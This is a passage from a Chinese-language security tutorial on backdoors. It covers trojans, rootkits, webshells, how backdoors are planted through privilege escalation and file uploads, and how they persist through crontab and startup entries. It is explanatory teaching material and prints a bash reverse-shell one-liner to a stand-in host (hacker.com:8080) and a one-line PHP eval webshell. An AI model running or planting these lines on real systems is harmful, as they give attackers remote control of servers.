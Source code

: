 在我前面讲的例子中，黑客就是在攻进系统后，给自己留下了一个“后门”，开辟了一条非正规的快速通道。那黑客是怎么操作的呢？

比如说，黑客在进入服务器之后，会留下下面这样一个脚本，让这个脚本，每分钟都执行一次：

```
bash -i &gt;&amp; /dev/tcp/hacker.com/8080 0&gt;&amp;1

```

这个脚本运行后，只要hack.com的8080端口打开，那么服务器就会通过TCP获取8080端口返回的命令并执行。因此，只要黑客任意时刻在hacker.com中监听8080端口（比如通过nc -l 8080），就可以获得服务器定时送上来的命令执行权限。

所以，不管漏洞是否修复，黑客都可以通过这个快速通道轻松进入系统。**而“后门”的关键意义就在于，为黑客长时间保持高权限的通道，使得黑客能够进行长时间的潜伏和攻击。**

比较有意思的是，“后门”不仅仅是为黑客服务的，正常的应用中可能也会留下一些“后门”以备特殊情况。比如，2008年，微软曾进行过一次打击盗版Windows的行动，当时国内的盗版Windows在同一时间出现了黑屏现象。显然，微软不可能知道所有人的管理员密码，但是微软会通过预留的“后门”实现对系统的控制。类似情况还有很多，比如，管理员在特殊情况下（比如忘记密码），可以通过“后门”对应用进行一些操作。

### “后门”是如何工作的？

接着，新问题又来了，既然修复漏洞之后，黑客依然可以通过“后门”自由进出，那我们该如何关掉这个“后门”呢？我们先来看看“后门”是如何工作的，知道了它的工作原理，我们才能“对症下药”，从根本上解决问题。

我们前面课程讲过的所有攻击方式，通常都是为了造成一些显式的攻击。而“后门”的目的则不同，“后门”会尽力隐藏自己不被别人发现。因此，“后门”通常会以木马的形式出现。

所谓**木马**（Trojan），就是一些外表看起来正常，但会对应用和系统进行破坏的服务和进程。比如，很早之前流行过的“[灰鸽子](https://baike.baidu.com/item/%E7%81%B0%E9%B8%BD%E5%AD%90%E6%9C%A8%E9%A9%AC/3013692)”木马，就是和正常的应用绑定在一起。这样“灰鸽子”就能在应用运行的时候监控应用的全部操作了（屏幕、键盘、摄像头等）。又因为应用正常的功能不会受到影响，所以，用户几乎感知不到“灰鸽子”的存在。

那木马可不可以不依附于应用，直接隐藏自己呢？当然可以。那么，“后门”就发展成了Rootkit。通常来说，Rootkit会驻扎于内核中，通过修改内核的逻辑来完成“后门”的功能。因为内核具备较高的权限，所以Rootkit就能破坏杀毒软件这样的安全进程，而不被轻易发现。同样地，因为Rootkit驻扎在内核中，理论上，除了重装系统以外，没有其他更好的方式来根除“后门”。

除了以隐藏进程的形式运行“后门”，黑客也可以把“后门”留在正常的Web服务中，这就变成了WebShell。在PHP中，最简单的一句WebShell如下：

```
&lt;?php @eval($_POST['shell']);?&gt;)

```

只要将这个PHP文件放到Web服务的目录中，黑客就可以通过在POST参数中填入Shell命令远程操控服务器。

总之，“后门”通常会以木马、Rootkit或者WebShell等比较隐蔽的形式运行在系统中。而黑客可以通过和“后门”的直接通信，来获得服务器的操控权限。

### 黑客如何将“后门”植入到系统？

好了，现在你应该知道“后门”是如何工作的了，那黑客又是怎么将“后门”植入系统的呢？

毫无疑问，最直接的方式就是通过权限提升，即黑客直接获取到系统的命令执行权限，然后通过网络将“后门”程序从云端下载下来。

除此之外，黑客还可以通过**文件上传漏洞**向服务器上传一个程序。在使用应用的时候，用户经常需要上传一些文件，比如：头像的图片、邮件附件和简历等。很多时候，开发人员为了方便，会直接将上传的文件存储到当前目录，也就是Web服务的目录中。这个时候，如果黑客上传的是一个PHP文件，那么这个PHP文件就会被放入到Web服务的目录中。因此，黑客只需要上传一个包含WebShell的PHP文件，就成功了植入了一个“后门”。

通过权限提升或者文件上传漏洞成功植入“后门”之后，黑客还需要保证“后门”的持久化。因此，“后门”需要常驻于系统的后台，并能够随着系统的开关机而启动。为了实现这个目的，黑客通常会在定时任务（crontab）或者开机启动项（inittab、rc.local）的配置中，加上“后门”的执行命令。

除此之外，黑客还可以利用伴随于系统的常驻进程来保证“后门”的持久化。对于WebShell来说，只要Web服务保持可用，那么WebShell也一直可用。对于Rootkit来说，它们会直接篡改内核的初始函数来进行自启动，也就更难被发现和去除。

总之，持久化要么是通过定时任务、开机启动等方式来实现，要么就是通过伴随于系统的常驻进程来实现。

## 面对权限提升和持久化，该怎么进行防护？

